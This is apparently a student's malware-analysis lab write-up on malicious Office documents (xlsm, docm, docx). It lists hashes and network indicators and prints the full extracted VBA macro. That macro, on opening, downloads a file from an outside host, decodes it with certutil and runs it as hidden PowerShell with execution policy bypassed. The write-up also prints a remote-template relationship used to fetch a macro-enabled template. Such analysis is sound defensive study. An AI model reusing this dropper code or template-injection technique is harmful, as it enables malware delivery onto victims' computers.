


<center><b>GonePhishing-MaldocAnalysis</b></center> <br>
<center>Patrick Loyd</center>           <br>
<center>PMAT</center>                   <br>
<center>June 11, 2023</center>           <br>

---

### <u>Malware Samples</u>

[.xlsm](https://github.com/HuskyHacks/PMAT-labs/blob/main/labs/3-1.GonePhishing-MaldocAnalysis/Excel/sheetsForFinancial.7z)


[.docm](https://github.com/HuskyHacks/PMAT-labs/blob/main/labs/3-1.GonePhishing-MaldocAnalysis/Word/docm/bookReport.7z)


[.docx](https://github.com/HuskyHacks/PMAT-labs/blob/main/labs/3-1.GonePhishing-MaldocAnalysis/Word/docx/incrediblyPolishedResume.7z)


---

### <u>Static Analysis</u>
##### Malware Info:
| Hashing Algorithm | .xlsm | .docm | .docx |
| ----------------- | ------|-------|-------| 
| md5                    | 31c5dd2ec5708739d7ec82b153a13a16 | c29c45bc4d9d33dab2bfbdd12a514e69 | 4dda84ea2e71997f864666220b031dd6 |
| sha1                   | b12cc67723b80566dcaf35c95b60972319bcbf50 | c7f9cd94e4e794b1b11970e547181d2c725cc04b | a1695e955efb4729afae3b5d3beb94a0b93c7ee9 | 
| sha256                 | 43e3e798644478cb52bdc2dea7eeb0f3a779a24b74514eebb27667652c3b6f4e | 868e6f35b12140b2c348cafac261402c1afc0dadbb178d971f1d5f6e5f117ac6 | 16e6489b81a41f0bfc2bc9bb0165b624c51ed4fecf6438c73a5ee6501caf34dc | 

| Info  | Value |
| ----- | ----- |
| os                     | windows |
| format                 | Macro |
| names                  | bookReport.docm, incrediblyPolishedResume.docx, sheetsForFinancial.xlsm | 

##### Virus Total

###### .xlsm


[vt_full_link](https://www.virustotal.com/gui/file/43e3e798644478cb52bdc2dea7eeb0f3a779a24b74514eebb27667652c3b6f4e/summary)

###### .docm


[vt_full_link](https://www.virustotal.com/gui/file/868e6f35b12140b2c348cafac261402c1afc0dadbb178d971f1d5f6e5f117ac6/detection)

###### .docx
N/A


##### Strings:
Note: Links Defanged Using [Cyber Chef](https://gchq.github.io/CyberChef/)

###### .xlsm

```
xl/vbaProject.bin
```

###### .docm

```
word/vbaProject.binPK
```

---

### <u>Dynamic Analysis</u>
Both the .xlsm file and the .docm file are Macro enabled.
The following analysis is done on this Macro embeded within the docuemnts.

###### vbaProject.vba
```
Function genStr(Length As Integer)
Dim chars As Variant
Dim x As Long
Dim str As String

  If Length < 1 Then
    Exit Function
  End If

chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
  "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
  "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
  "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
  "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
  "W", "X", "Y", "Z")
  For x = 1 To Length
    Randomize
    str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
  Next x
  
  randStr = str

End Function
        Sub Workbook_Open()
            Dim str1: genStr (17)
            Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
            str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
            Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
            str3 = "WQgd2l0jaCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
            xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
            xHttp.Send
            Dim str9: genStr (10)
            With bStrm
            .Type = 1 '//binary
            .Open
            .write xHttp.responseBody
            .savetofile "encd.crt", 2 '//overwrite
            End With
            str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
            str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
            Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
        End Sub


```

str6 is base64 encoded.
The picture below shows the decoded output.


#### Dry Run <br>
The script does not finish executing and makes no connection if there is no internet connectivity.

#### Internet Simulation<br>

The Excel document attempts to make a connection to srv3.wonderballfinancial.local and requests the abc123.cert resource.

##### Network Indicators:

This is the initial dns request to the previous domain.


The Macro then attempts to download abc123.cert using http.


---
### <u>Binary/Executable Analysis</u>

<u>Macro.vba Analysis:</u><br>
oledump.py was used to extract the origianl vba script Macro from the documents. 
From this the script's intent can be analyzed.
The Macro attempts to download from the domain identified as abc123.crt
It then writes that response as encd.crt.
The script then decodes the encd.crt file to run.ps1.
Finally the script runs the powershell script as a hidden service.
<br>

<u> .docx </u>
This document is more of a POC provided within the same folder that contains both malware peices. 
The following settings are from the file word/_rels/settings.xlm.rels contained within the docx file.
```
<?xml version="1.0" ?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://somtaw.warship.kuunlaan.local/macro3.dotm" TargetMode="External"/>
</Relationships>
```

The docx file reaches out to http://somtaw.warship.kuunlaan.local/macro3.dotm.
By setting the local host to that domain and hosting the same macro named macro3.dotm 
the malware will theoretically attempt to download and execute the spoofed file.

Hosts



Server Response


 
--- 

